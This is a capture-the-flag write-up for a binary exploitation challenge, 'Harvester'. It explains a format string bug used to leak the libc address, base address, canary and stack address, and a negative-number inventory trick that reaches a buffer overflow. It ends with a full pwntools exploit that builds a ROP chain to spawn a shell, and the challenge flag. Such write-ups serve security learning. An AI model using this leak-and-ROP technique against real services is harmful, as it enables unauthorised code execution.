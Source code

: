 # Harvester

## Challenge

The binary is a game played through an interactive prompt.

We have an inventory containing pies and we can interact with the inventory, fight, stare, or run.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

There is a format string vulnerability in the `fight` function:

```c
void sym.fight(void)
{
    int64_t in_FS_OFFSET;
    char *format;
    int64_t var_28h;
    int64_t var_20h;
    int64_t var_18h;
    int64_t canary;
    
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    format = NULL;
    var_28h = 0;
    var_20h = 0;
    var_18h = 0;
    sym.imp.printf("\x1b[1;36m");
    sym.printstr("\nChoose weapon:\n");
    sym.printstr("\n[1] 🗡\t\t[2] 💣\n[3] 🏹\t\t[4] 🔫\n> ");
    sym.imp.read(0, &format, 5);
    sym.printstr("\nYour choice is: ");
    sym.imp.printf(&format);
    sym.imp.printf("\x1b[1;31m");
    sym.printstr("\nYou are not strong enough to fight yet.\n");
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
    // WARNING: Subroutine does not return
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

The input size is too small to overwrite memory, but we can use this to leak addresses such as the address of libc and the canary.

We can see in the `stare` function that there is a special route if we have 0x16 pies:

```c
void sym.stare(void)
{
    int64_t in_FS_OFFSET;
    void *buf;
    int64_t canary;
    
    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    sym.imp.printf("\x1b[1;36m");
    sym.printstr("\nYou try to find its weakness, but it seems invincible..");
    sym.printstr("\nLooking around, you see something inside a bush.");
    sym.imp.printf("\x1b[1;32m");
    sym.printstr("\n[+] You found 1 🥧!\n");
    _obj.pie = _obj.pie + 1;
    if (_obj.pie == 0x16) {
        sym.imp.printf("\x1b[1;32m");
        sym.printstr("\nYou also notice that if the Harvester eats too many pies, it falls asleep.");
        sym.printstr("\nDo you want to feed it?\n> ");
        sym.imp.read(0, &buf, 0x40);
        sym.imp.printf("\x1b[1;31m");
        sym.printstr("\nThis did not work as planned..\n");
    }
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
    // WARNING: Subroutine does not return
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

We get 1 pie every time we stare, however, we cannot have exactly `0xf` pies or the program will exit due to the `check_pie` function.

To bypass this, we can drop a negative number of pies to get to 0x15 pies, then we will be given 1 pie upon staring and granted access to the vulnerable route.

Once we have the buffer overflow in `stare` we can call `system("/bin/sh")` and read the flag.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 harvester
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('harvester')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.recvuntil(">")
io.sendline("1")
io.recvuntil(">")
io.send("%21$p")
io.recvuntil(":")
libleak = io.recvuntil("\x1b[1;31m", drop=True)[1:]
libc.address = int(libleak, 0) - 0x021bf7
io.success("libc: {}".format(hex(libc.address)))

io.recvuntil(">")
io.sendline("1")
io.recvuntil(">")
io.send("%20$p")
io.recvuntil(":")
baseleak = io.recvuntil("\x1b[1;31m", drop=True)[1:]
exe.address = int(baseleak, 0) - 0x1000
io.success("base: {}".format(hex(exe.address)))

io.recvuntil(">")
io.sendline("1")
io.recvuntil(">")
io.send("%19$p")
io.recvuntil(":")
canaryleak = io.recvuntil("\x1b[1;31m", drop=True)[1:]
canary = int(canaryleak, 0)
io.success("canary: {}".format(hex(canary)))

io.recvuntil(">")
io.sendline("1")
io.recvuntil(">")
io.send("%16$p")
io.recvuntil(":")
stackleak = io.recvuntil("\x1b[1;31m", drop=True)[1:]
stack = int(stackleak, 0)
io.success("stack: {}".format(hex(stack)))

io.recvuntil(">")
io.sendline("2")
io.recvuntil(">")
io.sendline("y")
io.recvuntil(">")
io.sendline(str(10 - 0x15))

io.recvuntil(">")
io.sendline("3")
io.recvuntil(">")


rop = ROP(exe)
poprdi = rop.find_gadget(['pop rdi', 'ret'])[0]
leave = rop.find_gadget(['leave', 'ret'])[0]

system = libc.sym["system"]
binsh = next(libc.search("/bin/sh\x00"))

payload = flat({
    0x0: [
        poprdi,
        binsh,
        system,
        ],
    0x30 - 8: canary,
    0x30: stack - 0x78,
    0x30 + 8: leave,
    })

pause()
io.send(payload)

io.interactive()
```

## Flag

`CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}`

